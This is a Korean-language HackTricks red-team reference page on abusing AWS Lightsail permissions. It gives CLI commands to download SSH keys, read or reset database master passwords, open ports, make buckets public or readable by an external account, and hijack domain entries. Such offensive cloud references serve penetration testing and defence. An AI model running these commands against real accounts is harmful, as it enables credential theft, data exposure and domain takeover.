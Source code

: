 # AWS - Lightsail Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Lightsail

Lightsail에 대한 자세한 정보는 다음을 확인하세요:

{% content-ref url="../aws-services/aws-lightsail-enum.md" %}
[aws-lightsail-enum.md](../aws-services/aws-lightsail-enum.md)
{% endcontent-ref %}

{% hint style="warning" %}
Lightsail은 **사용자에게 속한 IAM 역할을 사용하지 않고** AWS 관리 계정에 속하므로, 이 서비스를 악용하여 권한 상승을 할 수 없습니다. 그러나 **코드, API 키 및 데이터베이스 정보**와 같은 민감한 데이터는 이 서비스에서 발견될 수 있습니다.
{% endhint %}

### `lightsail:DownloadDefaultKeyPair`

이 권한은 인스턴스에 접근하기 위한 SSH 키를 가져올 수 있게 해줍니다:
```
aws lightsail download-default-key-pair
```
**잠재적 영향:** 인스턴스 내에서 민감한 정보를 찾습니다.

### `lightsail:GetInstanceAccessDetails`

이 권한은 인스턴스에 접근하기 위한 SSH 키를 생성할 수 있게 해줍니다:
```bash
aws lightsail get-instance-access-details --instance-name <instance_name>
```
**잠재적 영향:** 인스턴스 내에서 민감한 정보를 찾습니다.

### `lightsail:CreateBucketAccessKey`

이 권한은 버킷에 접근할 수 있는 키를 얻을 수 있게 해줍니다:
```bash
aws lightsail create-bucket-access-key --bucket-name <name>
```
**잠재적 영향:** 버킷 내에서 민감한 정보를 찾습니다.

### `lightsail:GetRelationalDatabaseMasterUserPassword`

이 권한은 데이터베이스에 접근하기 위한 자격 증명을 얻을 수 있게 해줍니다:
```bash
aws lightsail get-relational-database-master-user-password --relational-database-name <name>
```
**잠재적 영향:** 데이터베이스 내의 민감한 정보를 찾습니다.

### `lightsail:UpdateRelationalDatabase`

이 권한은 데이터베이스에 접근하기 위한 비밀번호를 변경할 수 있게 해줍니다:

{% code overflow="wrap" %}
```bash
aws lightsail update-relational-database --relational-database-name <name> --master-user-password <strong_new_password>
```
{% endcode %}

데이터베이스가 공개되지 않은 경우, 다음 권한으로 공개할 수 있습니다.

{% code overflow="wrap" %}
```bash
aws lightsail update-relational-database --relational-database-name <name> --publicly-accessible
```
{% endcode %}

**잠재적 영향:** 데이터베이스 내에서 민감한 정보를 찾습니다.

### `lightsail:OpenInstancePublicPorts`

이 권한은 인터넷에 포트를 열 수 있게 합니다.
```bash
aws lightsail open-instance-public-ports \
--instance-name MEAN-2 \
--port-info fromPort=22,protocol=TCP,toPort=22
```
**잠재적 영향:** 민감한 포트에 접근.

### `lightsail:PutInstancePublicPorts`

이 권한은 인터넷에 포트를 열 수 있게 해줍니다. 이 호출은 지정되지 않은 모든 열린 포트를 닫습니다.
```bash
aws lightsail put-instance-public-ports \
--instance-name MEAN-2 \
--port-infos fromPort=22,protocol=TCP,toPort=22
```
**잠재적 영향:** 민감한 포트에 접근.

### `lightsail:SetResourceAccessForBucket`

이 권한은 인스턴스가 추가 자격 증명 없이 버킷에 접근할 수 있도록 허용합니다.

{% code overflow="wrap" %}
```bash
aws set-resource-access-for-bucket \
--resource-name <instance-name> \
--bucket-name <bucket-name> \
--access allow
```
{% endcode %}

**잠재적 영향:** 민감한 정보가 포함된 버킷에 대한 새로운 접근 가능성.

### `lightsail:UpdateBucket`

이 권한을 통해 공격자는 자신의 AWS 계정에 버킷에 대한 읽기 접근을 부여하거나 심지어 버킷을 모든 사람에게 공개할 수 있습니다:
```bash
# Grant read access to exterenal account
aws update-bucket --bucket-name <value> --readonly-access-accounts <external_account>

# Grant read to the public
aws update-bucket --bucket-name <value> --access-rules getObject=public,allowPublicOverrides=true

# Bucket private but single objects can be public
aws update-bucket --bucket-name <value> --access-rules getObject=private,allowPublicOverrides=true
```
**잠재적 영향:** 민감한 정보가 포함된 버킷에 대한 새로운 접근 가능성.

### `lightsail:UpdateContainerService`

이 권한을 통해 공격자는 컨테이너 서비스에서 개인 ECR에 대한 접근을 부여할 수 있습니다.
```bash
aws update-container-service \
--service-name <name> \
--private-registry-access ecrImagePullerRole={isActive=boolean}
```
**잠재적 영향:** 개인 ECR에서 민감한 정보 얻기

### `lightsail:CreateDomainEntry`

이 권한을 가진 공격자는 서브도메인을 생성하고 자신의 IP 주소로 포인팅할 수 있으며(서브도메인 탈취), 도메인에서 이메일을 스푸핑할 수 있도록 SPF 레코드를 작성하거나, 심지어 메인 도메인을 자신의 IP 주소로 설정할 수 있습니다.
```bash
aws lightsail create-domain-entry \
--domain-name example.com \
--domain-entry name=dev.example.com,type=A,target=192.0.2.0
```
**잠재적 영향:** 도메인 탈취

### `lightsail:UpdateDomainEntry`

이 권한을 가진 공격자는 서브도메인을 생성하고 자신의 IP 주소로 포인팅할 수 있으며(서브도메인 탈취), 도메인에서 이메일을 스푸핑할 수 있도록 하는 SPF 레코드를 작성하거나, 심지어 메인 도메인을 자신의 IP 주소로 설정할 수 있습니다.
```bash
aws lightsail update-domain-entry \
--domain-name example.com \
--domain-entry name=dev.example.com,type=A,target=192.0.2.0
```
**잠재적 영향:** 도메인 탈취

{% hint style="success" %}
AWS 해킹 배우기 및 연습하기:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
GCP 해킹 배우기 및 연습하기: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks 지원하기</summary>

* [**구독 계획**](https://github.com/sponsors/carlospolop) 확인하기!
* **💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 참여하거나 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**를 팔로우하세요.**
* **[**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) 깃허브 리포지토리에 PR을 제출하여 해킹 트릭을 공유하세요.**

</details>
{% endhint %}

